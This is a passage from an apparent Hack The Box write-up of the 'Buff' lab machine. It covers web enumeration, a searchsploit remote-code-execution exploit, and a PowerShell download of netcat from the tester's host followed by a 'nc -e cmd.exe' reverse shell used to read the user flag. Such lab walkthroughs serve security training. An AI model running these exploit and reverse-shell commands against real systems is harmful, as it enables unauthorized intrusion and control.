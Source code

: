 ``` {.python .numberLines}
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]

```

![writeup.enumeration.steps.4.1](Box%20Write-ups/htb.buff/screenshot02.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

\newpage
## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
``` {.python .numberLines}
python 48506.py http://10.10.10.198:8080/

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.buff/screenshot03.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/htb.buff/screenshot04.png)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
``` {.python .numberLines}
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/htb.buff/screenshot05.png)  

![writeup.exploitation.steps.2.2](Box%20Write-ups/htb.buff/screenshot06.png)  

3\. We use this interactive access to read the `user.txt` flag:  
``` {.python .numberLines}
type C:\Users\shaun\Desktop\user.txt

```
